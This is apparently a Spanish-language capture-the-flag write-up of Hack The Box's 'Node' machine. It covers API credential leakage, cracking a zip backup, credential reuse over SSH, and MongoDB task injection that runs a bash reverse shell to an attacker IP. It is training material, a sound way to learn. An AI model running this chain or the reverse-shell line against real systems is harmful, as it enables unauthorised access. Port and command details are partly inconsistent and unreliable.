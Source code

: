 ```yaml
---
layout: post
title:  "OSCP Path ~ Node de Hack The Box (Necesario VIP)"
description: Writeup de la maquina de HackTheBox llamada NODE siguiendo el PATH para el OSCP
tags: HTB, OSCP Path, app-js, fcrackzip, MongoDB, Scheduler, Cron-taks, Maquinas Retiradas, Writeup, Hacking
---
```


# Node ~ Hack The Box to OSCP

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.10.58       "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
		PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:5e:34:a6:25:db:43:ec:eb:40:f4:96:7b:8e:d1:da (RSA)
|   256 6c:8e:5e:5f:4f:d5:41:7d:18:95:d1:dc:2e:3f:e5:9c (ECDSA)
|_  256 d8:78:b8:5d:85:ff:ad:7b:e6:e2:b5:da:1e:52:62:36 (ED25519)
3000/tcp open  hadoop-datanode Apache Hadoop
| hadoop-datanode-info: 
|_  Logs: /login
| hadoop-tasktracker-info: 
|_  Logs: /login
|_http-title: MyPlace
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Entramos para visualizar la web por el puerto 3000

Hacemos CTRL + U

Encontramos esto en js que hace referencia a una app pinchamos en + /profile/`
```js
<script type="text/javascript" src="assets/js/app/controllers/profile.js"></script>
```
hacemos una peticion `Curl` 
```bash
Procedemos pinchando en /assets/js/app/controllers/profile.js
# curl -s -X GET "http://10.10.10.58:3000/assets/js/app/controllers/profile.js"                                                                                                                               4 ⨯
var controllers = angular.module('controllers');

controllers.controller('ProfileCtrl', function ($scope, $http, $routeParams) {
  $http.get("'/api/users/'" + $routeParams.username)
    .then(function (res) {
      $scope.user = res.data;
    }, function (res) {
      $scope.hasError = true;

      if (res.status == 404) {
        $scope.errorMessage = 'This user does not exist';
      }
      else {
        $scope.errorMessage = 'An unexpected error occurred';
      }
    });
});
```
Nos devuelve una ruta potencial: /api/users/
Procedemos a apuntar a ella y encontramos unas credenciales
```bash
# curl -s -X GET "http://10.10.10.58:3000/api/users/" |  jq                                                                                                                                                 123 ⨯
[
  {
    "_id": "59a7365b98aa325cc03ee51c",
    "username": "myP14ceAdm1nAcc0uNT",
    "password": "dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af",
    "is_admin": true
  },
  {
    "_id": "59a7368398aa325cc03ee51d",
    "username": "tom",
    "password": "f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240",
    "is_admin": false
  },
  {
    "_id": "59a7368e98aa325cc03ee51e",
    "username": "mark",
    "password": "de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73",
    "is_admin": false
  },
  {
    "_id": "59aa9781cced6f1d1490fce9",
    "username": "rastating",
    "password": "5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0",
    "is_admin": false
  }
]
```
Credenciales:
```bash
User que es admin
user: myP14ceAdm1nAcc0uNT
pass: manchester
```
Accedemos -- nos descargamos un archivo : `myplace.backup`

Le hacemos un cat al archivo vemos que esta en base64 asique procedemos a decodificarlo
```bash
# cat myplace.backup| base64 -d >> myplace
# file myplace     
myplace: Zip archive data, at least v1.0 to extract
# 7z x myplace  ------- NOS PIDE CONTRASEÑA
```
Procdemos a intentar crackearlo con la herramienta fcrackzip
```bash
# ls
myplace  myplace.backup
# fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt -v myplace 
PASSWORD FOUND!!!!: pw == "magicword"
```
Vemos que hemos obtenido un monton de directorios con recursos, nos metemops en `/var/www/myplace`

Filtramos por una busqueda para encontrar datos relevantes en los archivos
```bash
# cat app.js | grep -i -E "user|pass|db"                                                                                                                                                                      1 ⨯
const MongoClient = require('mongodb').MongoClient;
const ObjectID    = require('mongodb').ObjectID;
const url         = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/myplace?authMechanism=DEFAULT&authSource=myplace';
MongoClient.connect(url, function(error, db) {
  if (error || !db) {
    console.log('[!] Failed to connect to mongodb');
```
Credenciales Obtenidas:
```bash
mark: 5AYRft73VtFpc84k
```
Entramos con estas credenciales por SSH por la reutilizacion de credenciales.
```bash
# ssh mark@10.10.10.58 

mark@node:~$ ls -la
total 24
drwxr-xr-x 3 root root 4096 Sep  3  2017 .
drwxr-xr-x 5 root root 4096 Aug 31  2017 ..
-rw-r--r-- 1 root root  220 Aug 31  2017 .bash_logout
-rw-r--r-- 1 root root 3771 Aug 31  2017 .bashrc
drwx------ 2 root root 4096 Aug 31  2017 .cache
-rw-r----- 1 root root    0 Sep  3  2017 .dbshell
-rwxr-xr-x 1 root root    0 Sep  3  2017 .mongorc.js
-rw-r--r-- 1 root root  655 Aug 31  2017 .profile
```
Intentando enumerar el sistema un poco vemos que tenemos en /var/ 

encontramos el directorio /scheduler/ que suele ser para tareas cron a nivel de sistema o tiene relacion
```bash
mark@node:/var/scheduler$ ls -l
total 20
-rw-rw-r--  1 root root  910 Sep  3  2017 app.js
drwxr-xr-x 19 root root 4096 Sep  3  2017 node_modules
-rw-rw-r--  1 root root  176 Sep  3  2017 package.json
-rw-r--r--  1 root root 4709 Sep  3  2017 package-lock.json
```
lanzamos un script `procmon`
para detectar tareas CRON a nivel de sistema
```bash
/usr/bin/mongod --auth --quiet --config /etc/mongod.conf
scheduler --?¿ -- Son tareas Cron a nivel de base de datos MONGO DB
> /usr/bin/node /var/scheduler/app.js
```
Probamos a conectarnos a la base de datos mongo que aparece bastante con las credenciales del 
```bash
user: mark
pass: 5AYRft73VtFpc84k
``` 
# Mongo-DB
Procedemos a injectar una tarea en la colleccion tasks
```bash
mark@node:/var/tmp/Cron-Finder$ mongo -u mark -p 5AYRft73VtFpc84k scheduler
MongoDB shell version: 3.2.16
connecting to: scheduler
> show collections
tasks
> db.task.find()
> db.task.insertOne({cmd: "bash /tmp/shell.sh"});
2021-07-22T00:33:47.675+0100 E QUERY    [thread1] TypeError: db.task.instertOne is not a function :
@(shell):1:1

> db.task.find()  --- lo ejecutamos hasta que desaparezca que sera cuandoi se ejecute el tinglado para entrar como el usuario TOM
```
volvemos a tener que instertar la tarea 
```bash
 > db.tasks.insertOne({cmd: "bash /tmp/shell.sh"});
 > db.task.find()   --- lo ejecutamos hasta que desaparezca que sera cuandoi se ejecute el tinglado para entrar como el usuario TOM
 ```
 Previamente para que esto funcione nos montamos la `/tmp/shell.sh`, es importante hacer un `chmod +x shell.sh`
 ```bash
 bash -i >& /dev/tcp/10.10.14.12/443 0>&1
 ```
 Y esta si que nos lanza la shell directamente atraves de la tarea escrita en mongodb, pillamos la flag user.txt
```
# nc -vlnp 444 : 
tom@node:~$ ls
user.txt
tom@node:~$ cat user.txt 
e1156acc3574e04b06908exxxxxxxxx
```` 
 
